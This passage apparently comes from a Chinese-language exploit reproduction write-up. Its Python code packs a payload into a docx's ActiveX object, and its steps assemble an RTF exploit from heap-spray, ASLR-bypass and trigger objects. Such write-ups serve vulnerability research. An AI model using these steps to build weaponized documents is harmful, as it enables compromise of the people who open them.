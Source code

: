 ```python
    zip_docx = template_path + ".zip"
    current_dir = os.path.abspath(os.path.dirname(__file__))
    new_path = os.path.join(current_dir, "exp", os.path.basename(zip_docx)) 
    if os.path.exists(new_path):
        os.remove(new_path)

    shutil.copy(template_path, new_path) 
    zip_docx = new_path
    # open temp docx and a copy for modification 
    zin = zipfile.ZipFile(zip_docx, 'r') 
    zip_docx_copy = zip_docx + "_copy_" 
    zout = zipfile.ZipFile(zip_docx_copy, "w")
    # modify the docx template with exploit 
    for item in zin.infolist ():
        if item.filename.find("activeX1") >= 0 and item.filename.find(".bin") >= 0: 
            pass
        else:
            buffer = zin.read(item.filename)
            zout.writestr(item, buffer) # use existing file
            
    zout.writestr("word/activeX/" + "activeX1.bin", object_bin_data) 
    zout.close () 
    zin.close ()
    # convert to docx
    os.rename (zip_docx_copy, final_docx_name) 
    os.remove(zip_docx)

pack_file_to_open_xml_docx(template_path, final_docx_name, activeX_bin_path)
```

新建一个rtf文件，将替换好的docx文件添加到rtf文件中，保存后使用010Editor打开，搜索object，将{\object和{\*\objdata的全部内容复制:

![image-20210804120429898](https://raw.githubusercontent.com/JoeyZzZzZz/JoeyZzZzZz.github.io/main/image/image-20210804120429898.png)

再新建一个rtf文件，按照堆喷射、Bypass ASLR和漏洞触发的顺序添加三个对象。堆喷射的内容就是上方复制好的内容，其他两个可以直接在原EXP中复制过来即可，最终EXP的结构如下所示：

![image-20210804141320122](https://raw.githubusercontent.com/JoeyZzZzZz/JoeyZzZzZz.github.io/main/image/image-20210804141320122.png)
